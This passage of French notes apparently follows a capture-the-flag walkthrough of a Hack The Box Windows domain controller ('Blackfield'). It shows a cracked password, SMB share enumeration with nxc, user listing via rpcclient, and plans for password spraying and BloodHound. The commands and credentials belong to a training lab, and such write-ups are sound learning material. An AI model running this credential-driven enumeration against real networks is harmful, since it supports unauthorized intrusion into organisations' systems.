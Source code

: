 ```
Candidate.Engine.: Device Generator
Candidates.#1....: #1tray -> #!kayla
Hardware.Mon.#1..: Temp: 43c Util: 60%

Started: Tue Mar  5 18:46:02 2024
Stopped: Tue Mar  5 18:46:13 2024
```

Je vais verifier avec `winrm` comme elle est deja ouvert mais ca ne marche pas
alors je vaos essayer

```

└─# nxc smb 10.129.229.17 -u support -p '#00^BlackKnight' --shares   
SMB         10.129.229.17   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic                        Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share 
                                                                                                          
```

J'ai pas beaucoun d'infos alors je vais checker le `rpcclient` pour voir d'autres utilisateurs existant

```
└─# rpcclient -U 'support%#00^BlackKnight' 10.129.229.17 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]'
svc_backup
lydericlefebvre
audit2020
support
Administrator
```
Avec ces utilisateurs quoi faire ?
Comme j'ai un utilisateurs et un mot de passe, alors je vais faire du password spray

```


```

Mais ca ne marche pas, alors je vais utiliser bloodhound pour voir si j'ai le meilleur pour avoir le root
